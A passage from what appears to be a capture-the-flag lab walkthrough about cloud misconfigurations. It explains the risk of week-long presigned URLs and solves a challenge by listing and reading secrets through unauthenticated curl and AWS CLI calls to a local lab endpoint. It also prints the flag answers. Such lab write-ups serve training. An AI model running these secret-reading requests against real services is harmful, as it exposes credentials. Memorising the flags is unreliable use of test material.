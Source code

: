 Flag: `flag{presigned_url_forever}`

### Why This is Vulnerable
- Presigned URLs with 7-day expiration can be shared and remain valid long after access should be revoked
- If leaked (Slack, email, logs), attackers have days to exploit them
- Fix: Limit presigned URL expiry to 15-60 minutes maximum

---

## FLAG02: Secrets Manager Loot (200 points) - Medium

### Vulnerability
IAM Misconfiguration - Over-Permissive Secrets Access

### What You'll Learn
- Exploiting unauthenticated access to AWS Secrets Manager
- Understanding principle of least privilege
- Recognizing exposed secret management endpoints

### Solution

Step 1: List all secrets (no authentication required)
```bash
curl http://localhost:8000/api/admin/secrets
```

Step 2: Read the `okta_api_token` secret
```bash
curl http://localhost:8000/api/admin/secrets/okta_api_token
```

Expected Response:
```json
{
  "secret_name": "okta_api_token",
  "arn": "arn:aws:secretsmanager:...",
  "secret_data": {
    "token": "00abcdef-flag{too_much_power}-xyz123",
    "expires": "2025-12-31"
  },
  "flag": "flag{too_much_power}",
  "message": "FLAG02: Over-permissive IAM allows reading Secrets Manager",
  "warning": "VULNERABILITY: Secrets exposed without authentication"
}
```

Flag: `flag{too_much_power}`

Alternative (Using AWS CLI):
```bash
aws --endpoint-url=http://localhost:4566 \
  secretsmanager get-secret-value \
  --secret-id okta_api_token
```
